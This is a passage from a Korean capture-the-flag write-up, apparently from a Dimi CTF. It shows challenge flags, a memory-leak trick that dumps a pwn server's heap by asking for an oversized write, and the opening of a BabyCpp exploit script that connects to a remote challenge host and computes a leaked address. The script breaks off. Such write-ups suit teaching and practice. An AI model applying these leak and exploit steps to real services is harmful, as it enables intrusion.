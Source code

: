 단순 역연산하면 된다.

flag : dimi{ca1cul4t3d_inv3rs3?_0r_us3d_z3?_0h_y0u_ar3_4_F0Ol_;)}




## Pwn

```
서버 바이너리에는 정상적으로 플래그가 있습니다
nc 121.170.91.17 9901
DOWNLOAD
```



```
youngjoo@ubuntu16 init$ nc 121.170.91.17 9901
Do you want to do?
[R]ead
[W]rite
[E]xit
>>> W
length: 1000
hQ��4�����bVdimi{A110cAt3_1s_$o_1mp0rt@n7}@@$��,%b�N砪�bV0H��4H@$���<�����bVJ!�6���U���bV@@$��J!K9�(J!{�SԸX@$��hQ��4����4���bV@@$��ڧ�bV8@$��eO$��jO$���O$���O$���O$��!�:�����d@��bV8	���4   ���bV
                                     �
���A$���O$���A$���,%b�N�ձ���|��x86_64Do you want to do?
```

단순히 write 해주면 풀린다. 이거 모르고 쉘따고 좋아했는데,,

flag : dimi{A110cAt3_1s_$o_1mp0rt@n7}



### BabyCpp  ( 880p )

```
nc 121.170.91.17 7777
DOWNLOAD
```



```python
from ntpwn import *

#s = process('./babycpp')
s = remote('121.170.91.17',7777)

def go(menu):
	s.sendlineafter('>>> ',menu)

sc = list()
sc.append('tracemalloc on')
sc.append('c')
sc = makesc(sc)

#gdb.attach(s,sc)
go('S')
go('N')
s.recvuntil('Shell address: 0x')
leak = int(s.recvline()[:-1],16) - 0x1998 + 0x202d10
log.info("LEAK : " + hex(leak))

go('V')
go('N')

```
